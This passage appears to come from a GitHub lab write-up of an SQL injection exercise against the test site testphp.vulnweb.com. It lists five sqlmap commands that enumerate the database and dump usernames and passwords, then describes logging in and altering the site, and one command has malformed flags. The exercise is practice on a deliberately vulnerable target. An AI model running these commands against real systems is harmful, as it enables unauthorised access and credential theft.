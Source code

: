 By doing this, we find the username and password to both be _test_.

### Step 7: Log In
After succesffuly having executed the SQL Injection Attack, I went to the URL [http://testphp.vulnweb.com/userinfo.php](http://testphp.vulnweb.com/userinfo.php) and logged in using the information I obtained. After logging in, I then changed the information on the website and took a screenshot.
<img width="723" alt="Screenshot 2022-11-05 at 3 12 34 AM" src="https://user-images.githubusercontent.com/64619851/200082563-739daddc-15d1-4122-8247-c3dd742c1a84.png">

## Conclusion
In total, I ran 5 commands.
1. `sqlmap -u 'testphp.vulnweb.com/artists.php?artist=1' --dbs`
2. `sqlmap -u 'testphp.vulnweb.com/artists.php?artist=1' -D acuart --tables`
3. `sqlmap -u 'testphp.vulnweb.com/artists.php?artist=1' --D acuart -T users columns`
4. `sqlmap -u 'testphp.vulnweb.com/artists.php?artist=1' -D acuart -T users -C uname --dump`
5. `sqlmap -u 'testphp.vulnweb.com/artists.php?artist=1' -D acuart -T users -C pass --dump`
